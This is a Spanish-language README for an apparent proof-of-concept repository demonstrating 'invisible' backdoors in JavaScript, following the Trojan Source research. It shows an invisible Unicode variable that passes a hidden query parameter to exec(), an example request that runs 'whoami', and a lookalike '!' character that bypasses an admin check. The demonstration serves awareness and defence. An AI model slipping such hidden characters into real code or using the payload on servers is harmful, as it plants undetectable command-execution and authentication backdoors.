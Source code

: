 # El backdoor invisible

Basado en el paper de la Universidad de Cambridge ["Some Vulnerabilities are Invisible"](https://www.trojansource.codes/)

## Requerimientos

*  [Node.js](https://nodejs.org/en/) - (LTS or superior) 

* Para Linux and Mac - usar [nvm](https://github.com/creationix/nvm) para instalar Node

*  [Git](https://git-scm.com/downloads)

## Instalación

Clonar el repositorio:

```bash
git clone https://github.com/ezequielsoler/invisible-backdoor.git
```

Ingresar al repositorio:

```bash
cd invisilbe-backdoor
```

Instalar las dependencia usando NPM:

```bash
npm install
```

Correr de forma local el servidor usando Node:

```bash
node server.js
```

Si todo salió bien, deberías ver el mensaje: `Server listening at localhost:3000` y al ingresar con tu navegador a  [localhost:3000](http://localhost:3000/) podrás ver la página.

## Prueba de concepto

Este script es muy simple, realiza una comprobación de estado de red HTTP ejecutando `ping -c 1 google.com` y `curl -s http://example.com` y devuelve si estos comandos se ejecutaron con éxito. El parámetro GET opcional `timeout` limita el timeout de cada comando.

## El backdoor

El primer paso es buscar un carácter Unicode invisible que se pueda interpretar como una propiedad / variable en JavaScript. 
A partir de ECMAScript versión 2015, todos los caracteres Unicode con la propiedad Unicode [ID_Start](https://unicode.org/reports/tr31/) se pueden usar en propiedades y como nombre de variable.

El carácter "ㅤ" (0x3164 en hexadecimal) se llama "HANGUL FILLER" y pertenece a la categoría Unicode ["Letra, otro"](https://unicode-explorer.com/c/3164). Como este carácter se considera una letra, tiene la propiedad `ID_Start`, por lo tanto, puede aparecer en una variable de JavaScript.

A continuación, se muestra donde se sumo el caracter "invisible" en el código pero en su representación 'escapada':

```js
const { timeout,\u3164} = req.query;
```

Al contrario de lo que se puede ver, ¡el parámetro timeout no es el único parámetro descomprimido del atributo `req.query`! Se recupera un parámetro adicional llamado "ㅤ"; si se pasa un parámetro GET llamado "ㅤ", se asignará a la variable invisible.

De manera similar, cuando el array checkCommands se declara, esta variable es incluida:

```js
const checkCommands = [
    'ping -c 1 google.com',
    'curl -s http://example.com/',\u3164
];
```

Cada elemento del array, los comandos codificados y el parámetro proporcionado por el usuario, se pasa luego a la función `exec`. Esta función ejecuta los comandos dentro de cada elemento del array. Para que un atacante ejecute comandos arbitrarios del sistema operativo, tendría que pasar un parámetro llamado "ㅤ" (en su forma codificada en URL) al endpoint:

```
http://localhost:3000/network_health?%E3%85%A4=whoami%20%3E%20static/out.html
```

Además de los caracteres invisibles, también se pueden introducir backdoors utilizando caracteres Unicode que se parecen mucho por ejemplo, a operadores:

```js
const [ ENV_PROD, ENV_DEV ] = [ 'PRODUCTION', 'DEVELOPMENT'];
/* … */
const environment = 'PRODUCTION';
/* … */
function isUserAdmin(user) {
    if(environmentǃ=ENV_PROD){
        // bypass auth checks in DEV
        return true;
    }

    /* … */
    return false;
}
```
El carácter “ǃ” utilizado no es un signo de exclamación, sino un carácter de ["Latin Letter Retroflex Click"](https://www.compart.com/en/unicode/U+01C3). Por lo tanto, la siguiente línea no compara la variable environment con la cadena, "PRODUCTION" sino que asigna la cadena "PRODUCTION" a la variable previamente indefinida environmentǃ:

Por lo tanto, la expresión dentro de la instrucción if es siempre `true`.

Hay muchos otros caracteres que se parecen a los que se usan en el código que pueden usarse para tales propósitos (por ejemplo, “／”, “-”, “＋”, “⩵”, “❨”, “⫽”, “꓿” , “∗”). Unicode llama a estos caracteres ["confusables"](https://unicode.org/reports/tr36/#visual_spoofing) 
